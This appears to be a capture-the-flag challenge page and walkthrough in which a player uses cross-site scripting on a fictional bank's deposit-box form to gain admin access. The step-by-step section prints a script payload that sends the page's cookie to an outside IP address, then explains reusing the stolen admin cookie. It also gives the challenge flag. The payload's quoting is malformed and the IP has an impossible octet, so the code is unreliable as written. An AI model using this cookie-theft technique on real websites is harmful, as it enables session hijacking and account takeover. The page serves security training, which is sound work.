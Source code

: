 # 📦 Unsafe Deposit Box - L11 C08

Agent 707, we've been working with the bank to try and make their website more secure, which will hopefully prevent the Bulldogs getting access.

As part of our penetration testing we've found a page which might be vulnerable to XSS. It's the page you use to request further information about safety deposit boxes. You need to be logged in as a standard bank customer to get to that page, but we think you can use XSS to change the access level to admin. Give it a try.

**Tip:** Get admin access to the site to get the flag.

<details><summary>

## Need a hint?</summary>

```txt
💡 Hint: You must find a way to get the administrator's cookie sent to your web server address,
   then create the cookie with the right values and refresh the page for access.
```

</details>

<details><summary>

## Step by Step</summary>

- Enter `<script>document.location='?data='http://126.34.285.59:726%2bdocument.cookie</script>` in the name field of the form and hit submit
- You should get a message at the top telling you that the admin cookie is `32f35nh98gf3hy9085g398g35y98f43h9f3g234f27w624`
- Head to the cookies tab in the developer tools
- Replace the value of the `deposit_user` cookie with the obtained admin cookie and refresh the site
- This will give you the flag

`flag: x3kUszVcPCsT0ai5flui`

</details>
